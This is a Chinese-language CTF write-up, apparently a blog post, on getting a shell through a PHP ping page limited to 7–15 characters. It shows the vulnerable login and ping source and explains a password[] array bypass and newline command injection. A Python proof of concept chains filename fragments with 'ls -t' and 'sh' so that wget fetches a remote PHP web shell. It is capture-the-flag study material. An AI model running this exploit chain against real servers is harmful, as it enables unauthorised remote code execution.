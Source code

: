 ```yaml
---
title: 绕过7个字符getshell
date: 2017-05-08 21:37:31
tags: 
- 命令执行
- Linux
categories: 
- CTF
---
```



### 参考文章：

> http://isron.dropsec.xyz/2017/04/10/shell-7/  
> http://www.moonsos.com/post/256.html  
> http://wonderkun.cc/index.html/?p=524


### 原理解析
从wonderkun师傅的[github](https://github.com/clearloveQAQ/CTF_web/tree/master/web200-3 "github")
上d下原码，在本地实现下。不多说，直接上原码
<!--more-->

~~~PHP
$_POST = dAddslashes($_POST);
$_GET = dAddslashes($_GET);
$username = isset($_POST['username']) ? $_POST['username'] : die();
$password = isset($_POST['password']) ? md5($_POST['password']) : die();
$sql = "select password from users  where username='$username'";
$result = $conn->query($sql);
if (!$result) {
    die('<script>alert("用户名或密码错误!!")</script>');
}

$row = $result->fetch_assoc();

if ($row[0] === $password) {
    $_SESSION['username'] = $username;
    $_SESSION['status'] = 1;
    header("Location:./ping.php");

} else {

    die("<script>alert('用户名或密码错误!!')</script>");
}
~~~

这里的post上去的数据进行全局过滤，不考虑注入，这个里面有一个绕过点，首先看到password在跟数据库的数据进行比对的时候是经过md5哈希过的，所以可以通过和md5(数组)=空来绕过$row[0]===$password。这里涉及一个绕过php强等于的过程，php的===不仅比较值，还比较类型。http://static.hx99.net/static/drops/tips-7679.html（php比较操作符的安全问题）
现在如果我们输入一个空的username的话，row肯定为空，让passwordpost上去的时候为数组，这样就构成null=o开头的字符串，成功绕过$row[0] === $password

> playload：username=a&&password[]=a

进入ping.php，有一个一看就像命令执行的ping命令的执行框。
查看原码
~~~PHP
$ip=isset($_POST['ip'])?$_POST['ip']:die();
    // $ip =isset($_GET['ip'])?$_GET['ip']:die();
    if(!preg_match("/^\d{1,3}\.\d{1,3}\.\d{1,3}\.\d{1,3}/i",$ip)){
          die("<pre>ip 格式错误!!</pre>");
    }
    $substitutions = array(
        '&'  => '',
        ';' => '',
        '$'  => '',
        '('  => '',
        ')'  => '',
        '`'  => '',
        '|' => '',
     );
   $ip = str_replace( array_keys( $substitutions ), $substitutions, $ip );
  //  echo strlen($ip)."</br>";
  //  echo $ip;
   if(strlen($ip)<7||strlen($ip)>15){
       die("<pre>ip 长度错误!</pre>");
   }
    $dir = 'sandBox/'.$_SERVER['REMOTE_ADDR'];
    if(!file_exists($dir)) mkdir($dir);
    chdir($dir);

    $comments = <<<INFO
   <!--
      \$dir = 'sandBox/'.\$_SERVER['REMOTE_ADDR'];
    if(!file_exists(\$dir)) mkdir(\$dir);
    chdir(\$dir); 
   -->
INFO;
    echo $comments;

    if( stristr( php_uname( 's' ), 'Windows NT' ) ) {
            // Windows
            $cmd = shell_exec( 'ping  ' . $ip );
    }else{
            // *nix
            $cmd = shell_exec( 'ping  -c 1 ' . $ip );
    }
        // Feedback for the end user
        echo  "<pre>$cmd</pre>";
~~~

过滤了一些命令执行的一些关键词 &;$()`| ，全部替换为空了。然后输入的内容长度必须在7到15之间（IP长度限制）  
最上面参考文章的大佬说没有过滤换行符%0a，换行符过滤正则表达式的匹配和字符长度匹配。也就是通过ping 0.0.0.0  加上%0a(shell命令)来绕过不能用linux的连接词的过滤。  
可以通过wget 命令 远程下载一个shell，但是由于字符限制，所以需要用到/来连接2行命令的字符。  

### 利用方式  

上poc  

~~~python
#!/usr/bin/python
# -*- coding: utf-8 -*-
import requests
def GetShell():
    s=requests.session()
    url = "http://192.168.60.128/CTF/wonderkun/CTF_web/web200-3/src/ping.php"
    url1 = "http://192.168.60.128/web200-3/src/"
    header = {
        "Content-Type":"application/x-www-form-urlencoded"
    }
    data1={'username':'a','password[]':'a'}
    s.post(url1,data=data1,headers=header)
    '''
    wget\\
    \ 19\\
    2.\\
    16\\
    8.\\
    60.\\
    12\\
    8\ \\
    1.php\ \\
    -O\ \\
    2.php
    '''
    fileNames = ["2.php", "-O\ \\\\", "1.php\ \\","8\ \\\\", "12\\\\", "60.\\\\", "8.\\\\", "16\\\\","2.\\\\", "\ 19\\\\", "wget\\\\"]
   # 多出的\只是为了充填，无论几个\都是一样的作用
    ip = "0.0.0.1%0a"
    for fileName in fileNames:
        createFileIp = ip + ">" + fileName
        print createFileIp
        data = "ip=" + createFileIp
        s.post(url, data=data,headers=header,)
    getShIp = ip + "ls%20-t>1"  #新生成的文件输入进1中
    print getShIp
    data = "ip=" + getShIp
    s.post(url, data=data,headers=header)
    getShellIp = ip + "sh%201" # 执行1这个脚本
    print getShellIp
    data = "ip=" + getShellIp
    s.post(url, data=data,headers=header)
if __name__ == "__main__":
    GetShell()
~~~  

为了wget，先是把他们生成很多个临时文件，然后ls -t>1，然后再sh一下就执行了。我在测试的时候wget了自己的虚拟机，然后生成的文件里面是sever 500 的提示，想了半天自己的虚拟机又不在网络上，怎么可能wget到，真的是石乐志，哈哈。
